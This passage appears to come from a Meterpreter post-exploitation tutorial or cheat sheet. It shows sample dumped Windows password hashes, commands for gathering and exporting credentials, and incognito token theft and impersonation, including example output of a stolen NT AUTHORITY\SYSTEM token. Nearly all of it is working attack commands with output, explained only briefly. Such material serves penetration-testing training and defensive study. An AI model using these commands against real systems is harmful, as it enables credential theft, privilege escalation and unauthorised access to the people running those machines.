 ### Example Output
```
Administrator:500:c74761604a24f0dfd0a9ba2c30e462cf:d6908f022af0373e9e21b8a241c86dca:::
ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f58964a2376bbd769:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

### Credential Management
```bash
# Display gathered credentials
meterpreter > creds

# Add credentials manually
meterpreter > creds -a -u username -p password

# Export credentials
meterpreter > creds -o /tmp/credentials.txt
```

## Token Manipulation

### Understanding Windows Tokens
Windows access tokens contain security information about logged-on users. Meterpreter can steal and impersonate these tokens.

### Token Operations
```bash
# List available tokens
meterpreter > use incognito
meterpreter > list_tokens -u

# Steal token from process
meterpreter > steal_token <pid>

# Impersonate token
meterpreter > impersonate_token "DOMAIN\\username"

# Revert to original token
meterpreter > rev2self
```

### Example Token Theft
```bash
meterpreter > ps
# Find interesting process (e.g., explorer.exe running as admin)
meterpreter > steal_token 1836
[+] Stolen token with username: NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
